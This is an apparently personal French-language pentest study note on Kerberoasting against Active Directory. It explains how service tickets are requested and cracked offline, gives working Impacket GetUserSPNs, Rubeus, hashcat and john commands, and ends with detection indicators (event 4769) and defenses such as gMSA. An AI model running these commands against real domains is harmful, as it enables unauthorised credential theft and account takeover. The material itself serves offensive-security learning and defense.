

# 🧀 Kerberoasting

> [!info] **En 1 phrase**
> Kerberoasting = demander un **TGS** pour un compte de service, puis **cracker le hash hors-ligne** :
> n'importe quel utilisateur du domaine peut le faire, sans aucun privilège.

---

## 🎯 Concept



> [!info] 💡 **Pourquoi ça marche**
> Pour demander un TGS, il suffit d'être **authentifié au domaine** (n'importe quel compte).
> Le TGS est chiffré avec la clé du service → on le **brute-force offline** (aucun risque de lockout).

---

## ⚙️ Comment ça marche

1. **Énumérer les SPN** : `service/hostname` attribués à des **comptes utilisateurs**.
2. **Demander les TGS** pour ces SPN.
3. **Cracker** le ticket (mode hashcat **13100** / john `krb5tgs`).
4. Si le mot de passe du service est faible → **accès au compte de service**.

> [!warning] 🚨 **La nuance clé**
> - SPN sur un **compte utilisateur** → hash **crackable** (mdp choisi par un humain).
> - SPN sur un **compte machine** (`$`) → mot de passe **aléatoire 120+ caractères**, inutile de cracker.

---

## 🛠️ Exploitation

```bash
# Impacket (Linux)
GetUserSPNs.py -dc-ip 192.168.1.10 'corp.local/user:pass' -request
GetUserSPNs.py -dc-ip 192.168.1.10 'corp.local/user:pass' -request -aes   # AES256

# Depuis Windows (Rubeus)
Rubeus.exe kerberoast /stats
Rubeus.exe kerberoast

# Crack
hashcat -m 13100 kerberoast.txt rockyou.txt
hashcat -m 19700 kerberoast_aes.txt rockyou.txt   # version AES

# John
john --format=krb5tgs kerberoast.txt --wordlist=rockyou.txt
```

---

## 🔍 Détection & Défense

| Indicateur | Détail |
|---|---|
| **Événement 4769** | "A Kerberos service ticket was requested" — avec `TicketOptions=0x40810000` (renouvelable, forwardable) et un compte non-admin qui en demande BEAUCOUP |
| **Volume** | Beaucoup de TGS différents en peu de temps depuis un même poste |
| **Réponse** | Comptes de service **gMSA** (mdp auto-rotaté), mdps longs & aléatoires, surveiller les SPN sur comptes utilisateurs |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Le bon timing**
> Les TGS ont une validité de **10h** : les TGS capturés ne servent qu'au cracking, pas à la connexion directe. Lance le crack rapidement.

> [!warning] ⚠️ **Piège** : demander des TGS pour un compte **machine** (`$`) = perte de temps. Filtre BloodHound : `hasspn=true AND NOT name ends with '$'`.

---

## 🔗 Liens

- [[Kerberos - Le protocole|👑 Kerberos]]
- [[AS-REP Roasting|☀️ AS-REP Roasting]]
- [[Password Cracking|🔐 Password Cracking]]
- [[Silver Ticket|💠 Silver Ticket]] (résultat possible si on a la clé du service)
- → Note complète : [[05 - Active Directory|👑 Active Directory]]
